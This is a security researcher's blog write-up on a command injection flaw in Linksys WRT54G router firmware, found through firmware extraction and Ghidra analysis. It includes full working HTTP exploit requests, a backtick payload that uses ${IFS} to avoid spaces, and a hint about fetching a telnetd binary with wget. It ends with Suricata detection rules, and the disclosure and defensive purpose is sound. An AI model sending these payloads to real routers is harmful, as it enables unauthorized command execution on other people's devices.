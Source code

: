 ```yaml
---
layout: post
title:  "Linksys WRT54G - v3.1"
date:   2020-03-24 00:00:00 -0600
categories: linksys firmware wrt54g exploit command-injection
author: Nicholas Starke
---
```


This write up will go over how I found an exploited a command injection vulnerability in a `Linksys WRT54G` Small Office / Home Office router.

I downloaded the firmware for `Linksys WRT54G` version `3.1` from here:

[https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin](https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin)

Note that this firmware file is from 2012. According to [this link](https://www.linksys.com/us/support-article?articleNum=291978), the end of life (EOL) date for this device was:

>Prior to 2012

Since this device has been EOL'd for **at least** eight years (if not more), I am publishing this write up without reaching out to the vendor since it is unlikely to be patched at this point.  If you are still using this equipment, valid countermeasures to protect aginst this vulnerability include changing the default credentials for your router. Suricata rules are also included at the bottom of this write up.

## Hunting for Command Injection

Next I extracted the squashfs filesystem from the `FW_WRT54Gv4_4.21.5.000_20120220.bin` file using `binwalk -eM FW_WRT54Gv4_4.21.5.000_20120220.bin`.

Before I begin command injection testing, I want to know whether or not the `telnetd` or `utelnetd` binaries exist on the firmware filesystem, so I do a quick `find . -iname "*telnet*"`.  I don't find any results, so I will have to fall back to the `/bin/sleep` methodology for command injection testing. This methodology focuses on timing differences when a `sleep` sub-command is injected into a call to `system`.

Opening up `/usr/sbin/httpd` in Ghidra, we can start to look for command injection vulnerabilities. I start with the `system` function and viewing all instances of this function in the binary:

!["System Calls"](images/0034-system-calls.png "System Calls")

The first few calls are located in a function called `do_upgrade_post`, which by reading through it we can infer that this is the function that handles the configuration restore feature at the url path `/restore.cgi`.  

!["Command Injection"](images/0034-command-injection.png "Command Injection")

The following code is particularly interesting:

```c++
puVar7 = (undefined *)nvram_get("ui_language");
uVar8 = 0;
if (puVar7 == (undefined *)0x0) {
  puVar7 = &DAT_0047a2b8;
}
snprintf(acStack88,0x40,"cp /www/%s_lang_pack/captmp.js /tmp/.",puVar7);
system(acStack88);
```

In other words, if we can control the value of the NVRAM parameter `ui_language`, we can exploit this vulnerability.

It turns out we can control this value without any filtering happening on the server.  The following HTTP request demonstrates setting a malicious value for `ui_language` and 'primes' the vulnerability:

```http
POST http://192.168.1.1/apply.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 682
Authorization: Basic YWRtaW46YWRtaW4=
Referer: http://192.168.1.1/apply.cgi
Host: 192.168.1.1

submit_button=index&change_action=gozila_cgi&submit_type=language&action=&now_proto=dhcp&daylight_time=0&lan_ipaddr=4&wait_time=0&need_reboot=0&ui_language=%60%2fbin%2fsleep%24%7BIFS%7D23%60&wan_proto=dhcp&router_name=asdf&wan_hostname=&wan_domain=&mtu_enable=0&lan_ipaddr_0=192&lan_ipaddr_1=168&lan_ipaddr_2=1&lan_ipaddr_3=1&lan_netmask=255.255.255.0&lan_proto=dhcp&dhcp_check=&dhcp_start=100&dhcp_num=50&dhcp_lease=0&wan_dns=4&wan_dns0_0=0&wan_dns0_1=0&wan_dns0_2=0&wan_dns0_3=0&wan_dns1_0=0&wan_dns1_1=0&wan_dns1_2=0&wan_dns1_3=0&wan_dns2_0=0&wan_dns2_1=0&wan_dns2_2=0&wan_dns2_3=0&wan_wins=4&wan_wins_0=0&wan_wins_1=0&wan_wins_2=0&wan_wins_3=0&time_zone=-08+1+1&_daylight_time=1
```

The value we have chosen is:
```bash
`/bin/sleep${IFS}23`
```

If invoked in the target `system` function, it will cause the system to sleep for 23 seconds before continuing processing the request and eventually responding.

If we run the prime request and immediately follow it with an exploit request, we can achieve command injection.  The exploit request is:

```http
POST http://192.168.1.1/restore.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: multipart/form-data; boundary=---------------------------169284500162711627955704791
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 362
Referer: http://192.168.1.1/Backup_Restore.asp
Host: 192.168.1.1

-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="submit_button"

Backup_Restore
-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="restore"; filename="WRT54GV2_v4.21.5.cfg"
Content-Type: application/octet-stream

-----------------------------169284500162711627955704791--
```

Pay attention to the length of time it takes for this request to complete.  The request normally takes 5-6 seconds to complete; if you run the 'prime' request first, that length of time will extend past 23 seconds to between 28-30 seconds.  This is because `sleep 23` is being passed along to the `system` function and the kernel is subsequently waiting 23 seconds to resume processing.

## Analysis
Both requests are authenticated and the exploit requires two web requests.  In reality, this is probably not a very practical exploit.  Even if the default credentials are set at `admin:admin` and you can make the two web requests, there is no easy way to gain an interactive shell since the prerequisite binaries for the telnet daemon are not present.  Also since this command injection does not return any output ("blind" command injection), it is not useful for retrieving data from the device.  One could conceivably compile their own busybox `telnetd` binary and retrieve it over HTTP using `wget` (which is installed in the firmware at `/usr/bin/wget`).  Keep in mind the `ui_language` parameter expects no space characters, and the command injection seems to fail if any space characters are present in the payload.  Use `${IFS}` in place of spaces.

## Suricata Rules to Protect Yourself

### Suricata 5.0

```
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; http.method; content:"POST"; http.header; content:"Authorization|3a 20|Basic|20|"; http.uri; content:"/apply.cgi"; startswith; http.request_body; content:"change_action=gozila_cgi"; fast_pattern; content:"submit_type=language"; content:"&ui_language="; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/R"; classtype:attempted-admin; sid:1; rev:1;) 
```

### Suricata 4.0

``` 
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; content:"POST"; http_method; content:"Authorization|3a 20|Basic|20|"; http_header; content:"/apply.cgi"; http_uri; depth:10; content:"change_action=gozila_cgi"; http_client_body; fast_pattern; content:"submit_type=language"; http_client_body; content:"&ui_language="; http_client_body; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/PR"; classtype:attempted-admin; sid:1; rev:1;)
```

Thanks to [@zoomequipd](https://twitter.com/zoomequipd) for the rules.